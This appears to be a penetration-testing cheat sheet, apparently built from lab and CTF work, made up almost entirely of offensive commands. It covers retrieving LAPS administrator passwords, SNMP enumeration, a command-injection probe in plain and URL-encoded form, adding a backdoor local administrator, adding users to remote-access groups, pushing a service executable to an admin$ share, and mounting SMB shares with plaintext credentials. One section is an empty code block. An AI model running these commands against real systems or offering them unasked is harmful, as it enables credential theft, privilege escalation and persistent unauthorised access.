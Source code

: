 ### pyLAPS.py -> get local administrator's password!
```bash
pyLAPS.py --action get -d "DOMAIN" -u "ControlledUser" -p "ItsPassword"
```

### snmpwalk(161)
```bash
snmpwalk -c public -v1 192.168.x.x
snmpwalk -v2c -c public 192.168.195.149 NET-SNMP-EXTEND-MIB::nsExtendObjects
```


### Code Snippet to check where our code is executed
```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell
```

### net
**Add user**
```bash
net user nuri password123! /add
net localgroup administrators nuri /add
```

### net on kali
```bash
<Add user to Remote Access group on kali linux using net> 
net rpc group addmem "REMOTE ACCESS" "Tracy.White" -U nara-security.com/Tracy.White%zqwj041FGX -S 192.168.193.30 
```

### PrivestCheck
```bash
```

### smbclient
```bash
smbclient -N -L \\\\10.129.42.253
smbclient \\\\10.129.42.253\\users
smbclient -U bob \\\\10.129.42.253\\users
smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever

# download everything
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *


# When the file is too big, just mount the share on kali's file system
mkdir /mnt/resourced
mount -t cifs '//192.168.179.175/Password Audit' /mnt/resourced -o 'user=V.Ventz,password=HotelCalifornia194!'
sudo mount -t cifs -o username=plaintext,password=Password123,domain=. //192.168.220.129/Finance /mnt/Finance
umount /mnt/resourced
findmnt -s
```
